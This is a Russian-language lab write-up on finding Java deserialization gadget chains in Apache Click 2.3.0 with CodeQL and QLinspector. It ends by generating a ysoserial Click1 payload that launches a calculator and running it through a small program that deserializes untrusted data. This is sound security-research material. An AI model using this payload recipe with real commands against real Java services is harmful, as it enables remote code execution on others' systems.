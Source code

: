 3. ysoserial/codeql

с помощью https://github.com/synacktiv/QLinspector
найти цепочки вызовов обьектов, и сгененерировать эксплойты для них,
начинать с цепочек из ysoserial

Курбатов Ярослав    click2.3.0

## Сборка CodeQL database для `click-2.3.0`

1. Соберем исходный код через subversion: svn co http://svn.apache.org/repos/asf/click/tags/click-2.3.0
2. Т.к. пакет последний раз обновлялся 10 лет назад и работает через ant, потратим 3 часа чтобы сбилдить проект (убрать нерабоющие зависимости из build/build.xml, найти нужную версию JDK, ...). Затем соберем базу, используя кастомную команду:
   ```
   codeql database create -c "ant build-framework -f build/build.xml" --language=java -- codeql-database
   ```


## Поиск gadget chains с помощью QLInspector

Посмотрим, какие можно найти синки:

![Sinks](./assets/3/1.png)

Посмотрим, какие можно найти сурсы:

![Sources](./assets/3/2.png)

Посмотрим, какие gadget chains находит QLInspector:

![HadgetChains](./assets/3/3.png)


Все три chains ведут из одного метода `compare`:

```java
        public int compare(Object row1, Object row2) {

            this.ascendingSort = column.getTable().isSortedAscending() ? 1 : -1;

            Object value1 = column.getProperty(row1);
            Object value2 = column.getProperty(row2);

            if (value1 instanceof Comparable && value2 instanceof Comparable) {

                if (value1 instanceof String || value2 instanceof String) {
                    return stringCompare(value1, value2)  * ascendingSort;

                } else {

                    return ((Comparable) value1).compareTo(value2) * ascendingSort;
                }

            } else if (value1 != null && value2 != null) {

                return value1.toString().compareToIgnoreCase(value2.toString())
                    * ascendingSort;

            } else if (value1 != null && value2 == null) {

                return +1 * ascendingSort;

            } else if (value1 == null && value2 != null) {

                return -1 * ascendingSort;

            } else {
                return 0;
            }
        }
```

в метод `getObjectPropertyValue`:

```java
    private static Object getObjectPropertyValue(Object source, String name, Map cache) {
        PropertyUtils.CacheKey methodNameKey = new PropertyUtils.CacheKey(source, name);

        Method method = null;
        try {
            method = (Method) cache.get(methodNameKey);

            if (method == null) {

                method = source.getClass().getMethod(ClickUtils.toGetterName(name));
                cache.put(methodNameKey, method);
            }

            return method.invoke(source);

        } catch (NoSuchMethodException nsme) {

            try {
                method = source.getClass().getMethod(ClickUtils.toIsGetterName(name));
                cache.put(methodNameKey, method);

                return method.invoke(source);

            } catch (NoSuchMethodException nsme2) {

                try {
                    method = source.getClass().getMethod(name);
                    cache.put(methodNameKey, method);

                    return method.invoke(source);

                } catch (NoSuchMethodException nsme3) {
                    String msg = "No matching getter method found for property '"
                        + name + "' on class " + source.getClass().getName();

                    throw new RuntimeException(msg);

                } catch (Exception e) {
                    String msg = "Error getting property '" + name + "' from " + source.getClass();
                    throw new RuntimeException(msg, e);
                }

            } catch (Exception e) {
                String msg = "Error getting property '" + name + "' from " + source.getClass();
                throw new RuntimeException(msg, e);
            }

        } catch (Exception e) {
            String msg = "Error getting property '" + name + "' from " + source.getClass();
            throw new RuntimeException(msg, e);
        }
    }
```

причем все три chains отличаются только тем, в каком конкретно вызове `method.invoke(source);` в методе `getObjectPropertyValue` они заканчиваются.

Можно проверить, что это чейны эквивалентны тому с чем умеет работать ysoserial:

https://github.com/frohoff/ysoserial/blob/b7d0f27b46af06bbced7dbafddc49678179d3708/src/main/java/ysoserial/payloads/Click1.java#L22

```java
/*
    Apache Click chain based on arbitrary getter calls in PropertyUtils.getObjectPropertyValue().
    We use java.util.PriorityQueue to trigger ColumnComparator.compare().
    After that, ColumnComparator.compare() leads to TemplatesImpl.getOutputProperties() via unsafe reflection.

    Chain:

    java.util.PriorityQueue.readObject()
      java.util.PriorityQueue.heapify()
        java.util.PriorityQueue.siftDown()
          java.util.PriorityQueue.siftDownUsingComparator()
            org.apache.click.control.Column$ColumnComparator.compare()
              org.apache.click.control.Column.getProperty()
                org.apache.click.control.Column.getProperty()
                  org.apache.click.util.PropertyUtils.getValue()
                    org.apache.click.util.PropertyUtils.getObjectPropertyValue()
                      java.lang.reflect.Method.invoke()
                        com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl.getOutputProperties()
```


## Генерация эксплойта с помощью ysoserial

Сгенерируем сериализованный пэйлоад, использую пакет `Click1`:

```shell
java -jar ysoserial-all.jar Click1 "gnome-calculator" > payload.bin
```

в качестве команды используем калькулятор.

Напишем небольшую программу:

```java
package com.mycompany.app;

import java.io.ByteArrayInputStream;
import java.io.ObjectInputStream;
import java.nio.file.Files;
import java.nio.file.Path;
import java.nio.file.Paths;


public class Click {
	public static void main(String[] args) throws Exception {
    Path path = Paths.get(args[0]);
    byte[] data = Files.readAllBytes(path);

    ObjectInputStream ois = new ObjectInputStream(
        new ByteArrayInputStream(data)
    );

    ois.readObject();
    ois.close();
	}
}
```

и добавим нужные библиотеки (click-nodeps, click-extras) в список зависимостей:

```xml
<dependency>
  <groupId>org.apache.click</groupId>
  <artifactId>click-nodeps</artifactId>
  <version>2.3.0</version>
  <scope>compile</scope>
</dependency>
<dependency>
    <groupId>org.apache.click</groupId>
    <artifactId>click-extras</artifactId>
    <version>2.3.0</version>
    <scope>compile</scope>
</dependency>
```

И теперь выполним main, указав в качестве первого аргумента путь к `payload.bin`:

![Final](./assets/3/4.png)

